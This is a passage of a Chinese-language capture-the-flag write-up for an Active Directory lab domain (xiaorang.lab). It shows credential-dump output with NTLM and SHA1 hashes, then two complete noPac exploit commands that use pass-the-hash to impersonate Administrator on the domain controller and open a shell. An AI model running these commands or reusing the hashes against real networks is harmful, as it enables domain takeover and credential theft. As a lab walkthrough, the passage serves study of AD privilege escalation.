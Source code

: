 ```shell

Authentication Id : 0 ; 707863 (00000000:000acd17)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/8/16 12:27:41
SID               : S-1-5-90-0-2
	msv :
	 [00000003] Primary
	 * Username : XR-LCM3AE8B$
	 * Domain   : XIAORANG
	 * NTLM     : f87bbea221c346a6578b5e937f207038
	 * SHA1     : 318380b6fdd4556d540909a5c86a1bf191b2f0f5
	tspkg :
	wdigest :
	 * Username : XR-LCM3AE8B$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :
	 * Username : XR-LCM3AE8B$
	 * Domain   : xiaorang.lab
	 ......
```

根据题目描述考虑 noPac

试了一会发现只有 zhanghui 用户能打通 (?)

```shell
proxychains python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```

![image-20230816134513388](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161345451.png)

flag04

![image-20230816134601736](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161346804.png)

后来看了下网上的 writeup

[https://www.cnblogs.com/backlion/p/17187375.html](https://www.cnblogs.com/backlion/p/17187375.html)

意思是 `MA_Admin` 组对 Computer 容器才有 CreateChild 权限, 也就是能向域中添加机器账户

![image-20230816134118086](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161341153.png)

![image-20230816134137154](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161341217.png)

当然可以直接利用之前的 `XR-DESKTOP$` 机器账户来打 noPac

```shell
proxychains python3 noPac.py xiaorang.lab/'XR-DESKTOP$' -hashes ':03e8d17f4da1797f6b69a9a7a23244c1' -dc-ip 172.22.11.6 --impersonate Administrator -no-add -target-name 'XR-DESKTOP$' -old-hash ':03e8d17f4da1797f6b69a9a7a23244c1' -use-ldap -shell
```

